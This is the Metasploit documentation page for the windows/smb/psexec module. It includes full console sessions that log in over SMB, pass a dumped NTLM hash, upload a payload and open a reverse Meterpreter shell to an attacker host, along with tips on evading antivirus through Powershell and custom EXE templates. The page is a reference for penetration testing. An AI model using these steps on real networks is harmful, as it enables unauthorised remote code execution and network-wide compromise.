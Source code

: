 psexec is one of the most popular exploits against Microsoft Windows. It is a great way to test
password security, and demonstrate how a stolen password could lead to a complete compromise of an
entire corporate network.

The Metasploit Framework actually includes different module types of psexec for different
scenarios. exploit/windows/smb/psexec is the father of them all, and is used the same way
you normally would with any Metasploit exploits.


## Vulnerable Application

To be able to use exploit/windows/smb/psexec, you must meet these requirements:

1. You have a valid username/password.
2. Firewall allows SMB traffic.
3. Target is using SMBv1.
4. The remote Windows machine's network security policy allows it. If you see [one of these errors](https://github.com/rapid7/metasploit-framework/wiki/What-does-my-Rex%3A%3AProto%3A%3ASMB-Error-mean%3F), it's an indication it doesn't.

## Verification Steps

At the minimum, you should be able use psexec to get a session with a valid credential:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter > 
```

## Options

By default, exploit/windows/smb/psexec can be as simple as setting the RHOST option, and ready to
go. But in reality, you will probably need to at least configure:

**The SMBUser Option**

A valid Windows username.

**The SMBPass option**

This can be either the plain text version, or the Windows hash.

## Scenarios


**Pass the Hash**

One common penetration testing scenario with using psexec is that attackers usually begin by
breaking into a box, manage to the dump the hashes, and use some of those hashes to log into
other boxes on the network using psexec. So let's say I'm in that scenario with the following
stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

Without the need to crack the hash, I can simply copy and paste it to the SMBPass option in
psexec, and get a session:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter > 
```

**Automatic Target**

exploit/windows/smb/psexec comes with multiple targets available, and Automatic is default. What
happens under the hood is if Powershell is detected on the remote machine, it will try Powershell,
otherwise it uses the natvie upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell command with a payload embedded
in it. Since this approach does not leave anything on disk, it is a very powerful way to evade
antivirus. However, older Windows machines might not support Powershell by default.

Ideally, you probably want to use the Automatic target setting instead of this. Because the
automatic mode will check if the target supports Powershell or not before it tries, but the
manually set Powershell target won't do that.

**Native Upload Target**

The Native target will attempt to upload the payload (executable) to SYSTEM32 (modifiable with the
SHARE datastore option) , and then execute it with psexec.

This approach is rather reliable, but has a high chance of getting caught by antivirus on the
target. To counter this, you can try to use a template by setting the EXE::Path and EXE::Template
datastore options. Or, you can supply your own custom EXE by setting the EXE::Custom option.

**MOF Upload Target**

The [MOF](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows) target technically does not use psexec: it does not explicitly tell Windows to execute
anything. All it does is uploading two files: the payload (exe) in SYSTEM32, and a managed object
format file in SYSTEM32\wbem\mof\ directory. When Windows sees the mof file in that directory, it
automatically runs it. Once executed, the code inside the mof file basically tells Windows to
execute our payload in SYSTEM32, and we get a session.

Although a neat trick, Metasploit's MOF library only works against Windows XP and
Windows Server 2003. And since it does write files to disk, there is also a high chance of getting
caught by antivirus on the target.

The way to counter antivirus is still the same. You can either use a different template by setting
the EXE::Path and EXE::Template datastore options. Or you can supply your own custom EXE by setting
the EXE::Custom option.

